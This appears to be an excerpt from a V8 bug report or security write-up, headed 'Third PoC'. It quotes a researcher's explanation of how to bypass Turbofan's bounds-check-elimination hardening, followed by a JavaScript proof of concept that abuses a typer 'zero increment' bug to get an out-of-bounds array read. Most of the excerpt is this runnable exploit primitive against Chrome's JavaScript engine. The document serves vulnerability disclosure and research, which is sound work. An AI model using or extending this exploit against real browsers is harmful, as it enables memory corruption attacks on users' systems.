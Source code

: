 ## Third PoC

> I'm attaching a proof-of-concept code for the zero increment bug that implements an OOB access primitive. Since the JSCreateArray vector is fixed, I had to use a different one. It turns out though there's a public blog post at https://doar-e.github.io/blog/2019/05/09/circumventing-chromes-hardening-of-typer-bugs/ which explains how to bypass the bounds check elimination hardening. Basically, if you make v8 notice an OOB access on the array variable you're going to abuse, Turbofan will emit a `NumberLessThan` node instead of `CheckBounds`. `NumberLessThan` is not covered by https://crbug.com/v8/8806 and can still be eliminated.

```
function main() {
function trigger(str) {
  var x = 0;
  var k = 0;
  str = str | 0;
  str = Math.min(str, 2);
  str = Math.max(str, 1);
  if (str == 1) {
    str = "30";
  }
  for (var i = str; i < 0x1000; i -= x) {
      if (++k > 1) {
        break;
      }
  }

  if (typeof i == 'string') {
    i = 1;
  }

  i += 1;
  i >>= 1;
  i += 2;
  i >>= 1;

  var array = [0.1, 0.1, 0.1, 0.1];
  var array2 = [];
  return [array[i], array, array2];
};

for (let i = 0; i < 20000 + 1; ++i) {
  result = trigger(1 + i % 2);
}

console.log(result[0]);
}

%NeverOptimizeFunction(main);
main();
```
